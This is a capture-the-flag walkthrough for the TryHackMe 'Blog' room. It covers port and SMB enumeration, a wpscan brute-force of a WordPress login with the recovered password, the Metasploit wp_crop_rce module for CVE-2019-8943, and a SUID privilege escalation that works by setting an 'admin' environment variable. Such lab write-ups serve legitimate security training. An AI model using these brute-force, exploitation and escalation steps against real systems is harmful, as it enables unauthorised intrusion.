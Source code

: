 # 35 - Anonymous (ltrace / strace) to enumerate SUID binaries

Room Link --> [https://tryhackme.com/room/blog](https://tryhackme.com/room/blog)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -Pn -n -T5 -p- -sS -vv 10.10.37.166

PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```
{% endcode %}

_In order to get the blog to work with AWS, you'll need to add "blog.thm" to your /etc/hosts file._

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking the Page source code we get 2 usernames : Billy and his Mom.

```
bjoel
kwheel
```

#### SMB enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbmap -H blog.thm -u 'anonymous' -p 'anonymous'

print$       NO ACCESS	  Printer Drivers
BillySMB     READ, WRITE  Billy's local SMB Share
IPC$         NO ACCESS	  IPC Service (blog server (Samba, Ubuntu))

# we have RW access to the "BillySMB" share.
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The images from the SMB file share were deadends, so since we have 2 usernames we can use wpscan to bruteforce for their login passwords.

#### wpscan

{% code overflow="wrap" lineNumbers="true" %}
```bash
wpscan --url http://blog.thm/wp-login.php --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt
```
{% endcode %}

the WPScan was able to extract the credentials for the user kwheel. It was cutiepie1.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-fSRqKS33MB0/YKpXlw6DvqI/AAAAAAAAwBQ/8QSDhRQU65UJ8Eacc_bn5fMs_ovxxMg7gCLcBGAsYHQ/s16000/8.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

`kwheel : cutiepie1` .

Login to  wordpress. `version 5.0` .

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*rf2EDb3asLwEe5Fp4OqnmQ.png" alt="" height="82" width="700"><figcaption></figcaption></figure>

There is an [exploit](https://www.exploit-db.com/exploits/49512) for uploading images for WordPress Core 5.0 (CVE-2019–8943). we also have a Metasploit Module for this.

`use exploit/multi/http/wp_crop_rce`&#x20;

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`find / -perm -u=s -type f 2>/dev/null` .

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-9PLookrmx8E/YKpX7cj9jFI/AAAAAAAAwBw/c3_Wk84j9EgjlSvl15M80WrmYu0nLkkzwCLcBGAsYHQ/s16000/12.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Running `strings /usr/sbin/checker` - and we see it is executing `/bin/bash`.&#x20;

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Running the file informs us that we are not admin users.

> /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:217/1*W8OiYcQCx1PqN2r6GHsdqg.png" alt="" height="71" width="316"><figcaption></figcaption></figure>

We can investigate the binary more by using either **strace** or **ltrace** as both is installed on the host.

> ltrace /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:349/1*JYG2x8FV2Vv_iMG56RvN0Q.png" alt="" height="82" width="508"><figcaption></figcaption></figure>

Based on the ltrace output it appears that the only check the application does is to check an environment variable called admin for a value, lets test this theory by adding a value to the admin environmental variable

> export admin=1

Now lets launch the ltrace process to check if we are successful.

> ltrace /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:343/1*71tMuxVEaDu6aVyde052Cw.png" alt="" height="64" width="499"><figcaption></figcaption></figure>

We can now see that the “admin” environment variable has a value of 1.

> /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:312/1*pSzfFiJddbjxEsF6zANgaA.png" alt="" height="103" width="454"><figcaption></figcaption></figure>

Done!


